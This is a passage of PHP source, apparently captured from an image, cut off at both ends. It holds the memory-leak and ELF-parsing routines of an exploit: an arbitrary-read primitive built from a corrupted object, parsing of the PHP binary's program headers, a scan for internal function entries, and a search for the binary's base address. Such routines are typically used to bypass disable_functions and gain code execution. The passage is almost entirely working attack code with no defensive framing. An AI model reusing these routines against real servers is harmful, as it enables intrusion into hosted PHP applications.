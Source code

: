 ```php
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
            if($p_type == 1 && $p_flags == 6) { 
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }
        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);       
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
```